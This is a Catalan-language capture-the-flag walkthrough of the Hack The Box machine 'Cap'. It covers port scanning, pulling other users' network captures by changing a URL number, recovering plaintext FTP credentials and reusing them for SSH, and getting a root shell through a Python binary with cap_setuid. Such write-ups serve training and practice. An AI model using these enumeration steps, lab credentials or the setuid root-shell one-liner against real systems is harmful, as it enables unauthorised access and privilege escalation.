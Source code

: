 <p align="center">
  <img src="https://github.com/user-attachments/assets/9d0f2f9d-818d-42ae-9dd0-02cf12aeeba0" alt="cap-htb-header" width="50%" height="50%">
</p>

---

## NMAP scanning
Escaneig a través d'enviament de paquets TCP SYN a tots els ports del host per detectar quins estan oberts.
````bash
❯ nmap -p- --open -sS -v -n --min-rate=5000 -Pn -n 10.10.10.245

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.45 seconds
           Raw packets sent: 72198 (3.177MB) | Rcvd: 72198 (2.888MB)
````
Amb els ports resultants de l'escaneig anterior, enumerar la versió i llençar els scripts per defecte de NMAP.
````bash
❯ nmap -sCV -p21,22,80 -Pn 10.10.10.245

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.05 seconds
                                                                            
````
Buscant la versió de SSH al launchpad d'Ubuntu ja es pot extreure que, segurament, el host té un Ubuntu Focal.

## Web enumeration
Un dels apartats de la web realitza un seguiment del tràfic de la xarxa durant 5 segons i l'exporta en un arxiu .pcap per poder analitzar-lo amb WireShark. Mirant la forma que té l'URL, _/data/[nº], es pot provar si altres números corresponen a algun arxiu .pcap d'un seguiment anterior de la xarxa.

![image](https://github.com/user-attachments/assets/ffdfe307-69b7-459a-aedb-d0c9141b534c)

Hi tenim accés, i podem descarregar tots els arxius per obrir-los amb WireShark i analitzar-los.

## User
El primer arxiu, _0.pcap_, ha capturat una sèrie de connexions fetes pel protocol FTP, entre les quals es troba l'autenticació d'un usuari anomenat _nathan_ amb la contrasenya _Buck3tH4TF0RM3!_.

![image](https://github.com/user-attachments/assets/9f11edef-f0f4-40ca-8dd6-acbba2c07f45)

Si provem les credencials al servidor FTP podem accedir-hi, i podem veure el que sembla el directori _home_ de l'usuari _nathan_. De la mateixa manera, si ens autentiquem mitjançant SSH amb les mateixes credencials, podem aconseguir una consola interactiva com aquest usuari, ja que les credencials es reutilitzen. 

![image](https://github.com/user-attachments/assets/432fb5fc-a3b0-4fd0-be71-4098c40999b4)

## Privilege escalation
Llistant les _capabilities_ del host, podem veure que Python3.8 té assignat _cap_setuid_, pel que es pot utilitzar aquest binari per a manipular el UID d'un procés i, doncs, pot fer-se servir per tenir una consola amb UID 0 (root).
````bash
> getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
````
````python
>>> import os; os.setuid(0); os.system("/bin/bash")
````
![image](https://github.com/user-attachments/assets/62020c74-b114-46e5-bc2f-9177f49a34a8)

